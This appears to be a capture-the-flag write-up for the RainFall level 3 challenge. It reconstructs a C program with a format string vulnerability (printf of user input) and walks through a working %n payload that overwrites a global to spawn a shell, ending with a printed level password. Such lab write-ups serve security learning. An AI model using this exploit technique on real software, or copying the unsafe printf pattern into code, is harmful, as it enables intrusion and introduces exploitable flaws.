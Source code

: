 # Level 3

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>

int m;

void v(void)
{
    char buffer[512];
    fgets(buffer, 512, stdin);
    printf(buffer);

    if (m == 64)
    {
        fwrite("Wait what?!\n", 1, 12, stdout);
        system("/bin/sh");
    }
}

int main(void)
{
    v();
}
```

Let's focus on the `v` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However the `printf` function is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability.
> You can read more about format string vulnerabilities [here](https://owasp.org/www-community/attacks/Format_string_attack).

We notice from the C code that we'll have to somehow write 64 bytes to the `m` variable to spawn a shell. We can do this by exploiting the format string vulnerability, thanks to the `%n` format specifier, which writes the number of bytes written so far to the corresponding argument. We'll make sure the corresponding argument is the `m` variable's address.

Before crafting our payload, we have to locate our input string on the stack and determine the address of `m`.

To locate our input string on the stack, we send a string with format specifiers, specifically the %x specifier, to printf. This specifier prints the next argument as a hexadecimal value. Since we don't pass any arguments to `printf`, it will print the values on the stack:
```bash
level3@RainFall:~$ python -c 'print("%x %x %x")' | ./level3
200 b7fd1ac0 b7ff37d0
```

To pinpoint our input string on the stack, we need to precede our %x format specifiers with a dummy string:

```bash
level3@RainFall:~$ python -c 'print("AAAA %x %x %x %x")' | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141
```

In this output, 41414141, the hexadecimal representation of 'AAAA', is found at the fourth position.

The assembly code reveals that the address of the `m` variable is `0x804988c`.

We can then craft our payload:
```
address of m + padding + %n format specifier pointing to the fourth argument

"\x8c\x98\x04\x08" + "0"*(64-4) + "%4$n"

Since we need to write 64 into m, we write 64 characters (4 from the address of m and 60 from the "0" padding). 
Then, we use the %n format specifier to record the count of bytes written so far into the fourth argument, which is m's address.
```

Let's execute our payload:
```bash
level3@RainFall:~$ (python -c 'print("\x08\x04\x98\x8c"[::-1] + "0"*(64-4) + "%4$n")' && cat) | ./level3
�000000000000000000000000000000000000000000000000000000000000
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

We are now level4! Let's move on to the next level.

